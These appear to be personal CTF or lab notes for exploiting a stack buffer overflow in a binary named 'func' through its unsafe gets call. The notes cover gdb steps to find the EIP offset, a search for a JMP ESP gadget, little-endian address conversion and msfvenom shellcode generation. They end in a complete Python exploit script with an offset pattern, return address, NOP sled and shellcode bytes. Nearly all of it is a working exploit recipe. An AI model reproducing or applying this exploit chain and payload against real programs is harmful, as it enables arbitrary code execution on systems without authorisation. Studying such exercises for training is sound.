 ye

redirecting info as user input  ./func <<<$(echo "input")
input as a parameter            ./func $(echo "sample")



gdb ./func         (in the directory of func)
run
info functions    shows strings with addresses 
pdisass main
pdisass getuserinput
notice gets is red and vulnrable
run <<<$(python linbuff.py)                         go here if script needs more chars https://wiremask.eu/tools/buffer-overflow-pattern-generator/
put the eip from the output to the buffer website for offset
shell/exit
in shell do env - gdb ./func
from  (gdb)  show env
unset env Columns
unset env LINES
show env        should be denada
run then ctrl c
info proc map             look inbetween stack and heap
find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4              f7de is from start addr right after heap ffff is from end addr on stack
coppy first 5 swap to little indian 
swap eip to little indian 
quit
somewhere 
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python exit          change cmd for what question is asking
add the buff lines under nop and +buf
./func <<<$(python linbuff.py)



scrip looks like
#!/usr/bin/env python
  
offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf =  b""
buf += b"\xb8\x25\x13\xaf\xbb\xdb\xc7\xd9\x74\x24\xf4\x5a"
buf += b"\x29\xc9\xb1\x0b\x31\x42\x14\x03\x42\x14\x83\xea"
buf += b"\xfc\xc7\xe6\xc5\xb0\x5f\x90\x48\xa1\x37\x8f\x0f"
buf += b"\xa4\x20\xa7\xe0\xc5\xc6\x38\x97\x06\x74\x50\x09"
buf += b"\xd0\x9b\xf0\x3d\xe5\x5b\xf5\xbd\x9d\x33\x9a\xdc"
buf += b"\x0c\xaa\x64\x48\x9c\xa5\x84\xbb\xa2"
print(offset+eip+nop+buf)


'''    (commeneted out)
0x f7 de 3b 59 --> "\x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
0xf7f64aeb
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python exit
'''
